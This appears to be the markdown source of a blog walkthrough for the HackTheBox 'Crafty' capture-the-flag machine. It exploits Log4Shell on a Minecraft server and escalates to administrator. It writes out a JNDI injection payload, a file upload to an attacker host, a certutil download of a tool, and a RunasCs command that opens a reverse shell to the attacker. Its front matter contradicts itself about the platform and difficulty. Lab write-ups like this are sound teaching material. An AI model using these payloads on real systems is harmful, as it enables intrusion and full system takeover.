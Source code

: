 ```yaml
---
title: "CTF: Crafty (HTB, Linux, Insane)"
excerpt: "A detailed walkthrough of \"Crafty\" machine on HackTheBox."
tagline: "Destroy a Minecraft server!"
header:
  teaser: /docs/assets/images/teasers/ctf/crafty.png
  og_image: /docs/assets/images/teasers/ctf/crafty.png
  overlay_image: /docs/assets/images/teasers/ctf/crafty2.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Windows
  - Difficulty-Easy
  - Log4Shell
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Crafty" machine on HackTheBox that is based on Windows operating system and categorized as "Easy" by difficulty. Never in my entire existence had I thought I would fall so low that I'd touch Minecraft in any shape or form, however, the day has come... "Enjoy" a takeover of a Minecraft server that is vulnerable to the infamous **Log4Shell** (CVE-2021-44228)! It should be noted that at the moment of writing, the machine has not been implemented in a quality manner, and even if you follow all the instructions step by step, you may still experience connectivty issues and exploits not functioning properly (it's recommended to spare yourself from pain and simply reset the machine). However, through rigorous testing, yours truly described the smoothest exploitation scenario.

## Reconnaissance

Run **nmap** to scan all ports:

```bash
nmap -p- <IP>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/nmapscan.png" alt="">
  <figcaption>Ports 80 HTTP and 25565 Minecraft are open.</figcaption>
</figure>

As soon as Minecraft appeared in the scan results, Log4Shell came across my mind due to a video watched on YouTube a while ago, Minecraft servers being vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). It was possible to inject **JNDI** queries right into the game chat and the server would execute them, provided that it utilized **Log4j** versions 1.7 to 1.18.

Navigating to the website would feature the following page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/craftypage.png" alt="">
  <figcaption>Donate your lunch money!</figcaption>
</figure>

The website hosted on Windows IIS cannot be exploited in any way, so the Challenger has to focus on **port 25565** where Minecraft is running. The home page also mentions the server's subdomain, **play.crafty.htb**.

## Weaponization

It is required to install the following tools to establish foothold:

* Download the following [Log4j PoC](https://github.com/kozmer/log4j-shell-poc/tree/main?tab=readme-ov-file) by Kozmer from GitHub.

* The exploit requires **jdk-8u20** and checks if its present in the directory. Downloading the exact version from Oracle website prompts for account creation. I was able to find a slightly different jdk version - [jdk-8u202](https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz) that works with the exploit. Once downloaded and extracted in the same directory as the POC script, rename the jdk directory to **jdk1.8.0_20** in order to bypass the script check.

* Download [PyCraft](https://github.com/ammaraskar/pyCraft): a CLI Minecraft client that allows to connect to the server and send messages to the game chat (best alternative to avoid the disgrace of install an actual Minecraft client on your computer).

Once the above steps have been completed, modify the code of **poc.py** file in the *log4j-shell-poc* directory to execute **"cmd.exe"** (since the server is hosted on Windows) in the payload:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/pocpy.png" alt="">
  <figcaption></figcaption>
</figure

## Exploitation / Foothold

Run Kozmer's PoC:

```bash
python3 poc.py --userip YOUR_IP --webport YOUR_HTTP_PORT --lport YOUR_NETCAT_PORT
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/kozmerpocrun.png" alt="">
  <figcaption></figcaption>
</figure>

The exploit will open a HTTP server on the specified port where it will host a malicious payload referring to Netcat listener. Also it opens an LDAP server with the instructions that would redirect the server to the Attacker's HTTP server. In the output, the tool specifies a JNDI payload that will need to be injected in the game chat.

Run Netcat:

```bash
nc -lnvp <PORT>
```

Connect to the server with PyCraft:
```bash
python start.py -o -u $USER -s play.crafty.htb:25565
# Once the chat opens, inject the JDNI payload provided by the exploit:
${jndi:ldap://<YOUR IP>:1389/a}
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/pycraft.png" alt="">
  <figcaption></figcaption>
</figure>

### User flag

The Challenger should receive a reverse shell on the Netcat listener. Claim the user flag:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/user.png" alt="">
  <figcaption></figcaption>
</figure>

## Privilege escalation

Navigate to *C:\\User\\svc_minecraft\\server\\plugins*. There's a **playercounter-1.0-SNAPSHOT.jar** file in there:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/plugins.png" alt="">
  <figcaption></figcaption>
</figure>

Now it's necessary to transfer the file to the Attacker's machine to extract its contents. Upload it to your HTTP server (other file transfer methods were not working properly on this machine at the moment of writing) with Powershell. You can use [SimpleHTTPServerWithUpload](https://github.com/Tallguy297/SimpleHTTPServerWithUpload) Python tool.

```python
python3 SimpleHTTPServerWithUpload.py <PORT>
```
Then on the Target machine:
```powershell
powershell
(New-Object System.Net.WebClient).UploadFile('http://<IP>:<PORT>/', 'playercounter-1.0-SNAPSHOT.jar')
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/jarupload.png" alt="">
  <figcaption></figcaption>
</figure>

The file should be uploaded in the directory with HTTP server tool.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/jardownload.png" alt="">
  <figcaption></figcaption>
</figure>

Let's view the contents of the file with **jd-gui**. Install it on your machine with *sudo apt-get jd-gui*. In the source code of **Playercounter.class** we see a command for **rcon** (Remote Console for the Minecraft server) that contains a <ins>password</ins> string.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/rconpass.png" alt="">
  <figcaption></figcaption>
</figure>

It's time to use the discovered passsword. For this purpose, we will utilize [RunasCs](https://github.com/antonioCoco/RunasCs) - a utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.

Download the tool. Start a HTTP server and transfer the tool to the Target machine:

```powershell
# Attacker:
python3 -m http.server <PORT>
# Target:
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/runascs.exe" runascs.exe
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/rundadownload.png" alt="">
  <figcaption>Example of successfull download.</figcaption>
</figure>

Start a Netcat listner on the Attacker machine. Back on the Target machine, run **runascs.exe** with the following parameters:

```powershell
.\runascs.exe administrator <PASSWORD> cmd.exe -r <IP>:<PORT>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/runascscmd.png" alt="">
  <figcaption></figcaption>
</figure>

This will send a reverse shell as **administator** user to the Attacker. Claim the root flag in the  C:\\Users\\Administrator\\Desktop folder.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/root.png" alt="">
  <figcaption>Solved, now delete Minecraft from your computer!</figcaption>
</figure>


**Thank you for your attention and happy hacking!**
{: .notice--primary}

